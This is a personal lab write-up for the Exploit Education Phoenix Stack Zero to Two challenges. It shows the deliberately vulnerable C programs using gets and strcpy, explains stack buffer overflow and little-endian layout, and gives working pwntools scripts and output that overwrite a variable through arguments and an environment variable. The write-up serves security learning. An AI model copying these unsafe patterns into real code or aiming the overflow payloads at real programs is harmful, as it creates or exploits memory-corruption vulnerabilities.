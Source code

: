 # Buffer Overflow

In C, a buffer is an area of memory set aside for the temporary storage of data. A buffer overflow is when an input to a buffer exceeds the original intended buffer area, overwriting other program information, thus making the program behave unexpectedly. In CTFs, I have seen two main types of overflows: overflowing the buffer, and overflowing the buffer and writing an address for the system to return to. I will be using the https://exploit.education/phoenix/ Stack series to learn how to do buffer overflows. This is just my write-ups for me to come back later on, if needed. I will also use this as an opportunity for myself to learn how to properly use `pwntools` as well.

## Stack Zero

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

Here, we can see that the buffer is set to 64: `char buffer[64];` In addition, we see the system uses `gets`, which is a vulnerable function, as it allows us to input more information than the buffer can hold, allowing for overflow. To write 64 characters in python, we can just do the following command: `python3 -c 'print("A"*64)'`. This outputs 64 "A"'s. However, the buffer is 64 and we need to write more than 64 bytes in order to conduct a buffer overflow. Thus, we run the following: `python3 -c 'print("A"*65)'`. This gives us the following output in the code:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, the 'changeme' variable has been changed!
```

We have then overflowed the `locals.changeme` variable. 

## Stack One

This process is similar to the aforementioned, however, instead of any string, you put a hexadecimal string. 

```C
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

If we add an extra `A` to the input from last time, we get the following:

```
./a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                
Getting closer! changeme is currently 0x00000041, we want 0x496c5962
```

So we are able to modify this value. The result we want is `0x496c5962`. 

> One thing to note, is that if we add an extra `B` to the end, we get `0x00004241`. This means that we have to use little endian for the solution. For example, if we used big endian, we would have `0x62596c49` (`0x496c5962` "backwards"), which is not what we want. If you want to learn more, look into endianness. 

I ended up writing the following code in Python 3 to solve this challenge:

```python
#!/usr/bin/python3
# Library import
from pwn import *
import subprocess

# The process
#elf = ELF("./a.out", checksec=True)
#p = process('./vulnerable_binary'); if not ELF
#p = elf.process()

# Context = Little vs Big Endian 
# For number 12 34, Big:0x12 0x34; Little:0x34 0x12
context(endian="little", log_level="debug")

#payload format using flat
#Helps to format strings better visually
payload = flat({
    64: p32(0x496c5962) #No need for quotes here; It basically cyclic fills until 64
})

binary = subprocess.run(["./a.out", payload]) #I use this because the file requires command line argument. Haven't figured that out yet using pwntools.
print(binary)
```

I have tried to add comments to the code to make it more explanatory. TLDR, I use flat to create a payload of 64 bytes of random characters, it then sends `0x496c5962` and limits it to 32 bytes (`p32()). From there, I use the subprocess library then add the payload as an argument to the binary.

With that, we get the flag:

```
Well done, you have successfully set changeme to the correct value
CompletedProcess(args=['./a.out', b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaabYlI'], returncode=0)
```

After reading the write-up at https://github.com/secnate/Exploit-Education-CTFs/blob/main/Phoenix/stack-one/exploit.py, I realized that I could have added an argument using process. Here is a secondary solution:

```python
#!/usr/bin/python3
from pwn import *
import subprocess
context(endian="little", log_level="debug")
payload = flat({
    64: p32(0x496c5962) #No need for quotes here; It basically cyclic fills until 64
})
p = process(["./a.out", payload])
p.interactive()
```

## Stack Two

```
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

After compiling this code, I got an error: `a.out: please set the ExploitEducation environment variable`. This was fixed by running: `export ExploitEducation=1`. I spent a while trying to find out why my input was not changing the buffer, until I realized the input was meant to pass through the environment variable.

I was not aware of how to submit a environment variable using pwntools. I was able to learn from [this writeup](https://github.com/secnate/Exploit-Education-CTFs/blob/main/Phoenix/stack-two/exploit.py#L21). From there I learned to pass a variable through the process module. My solution to this ended up being:

```
from pwn import *
import subprocess
elf = ELF("./a.out", checksec=True)
context(endian="little", log_level="debug")
payload = flat({
    64: p32(0x0d0a090a) #No need for quotes here; It basically cyclic fills until 64
})
p = process(["./a.out"], env={"ExploitEducation" : payload })
p.interactive()
```

## Sources
- https://www.tutorialandexample.com/what-is-a-buffer-in-c
- https://exploit.education/phoenix/
- https://stackoverflow.com/questions/701624/difference-between-big-endian-and-little-endian-byte-order
- https://xanhacks.gitlab.io/ctf-docs/pwn/pwntools/